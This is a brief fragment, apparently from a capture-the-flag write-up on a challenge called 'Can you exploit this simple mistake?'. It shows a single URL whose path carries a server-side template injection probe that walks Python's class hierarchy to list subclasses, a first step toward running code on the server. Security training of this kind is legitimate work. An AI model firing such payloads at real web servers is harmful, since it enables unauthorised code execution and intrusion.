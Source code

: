 # __Can you exploit this simple mistake?__

http://46.101.84.35:30254/{{''.__class__.mro()[1].__subclasses__()}}

<img src="images/templated_01">
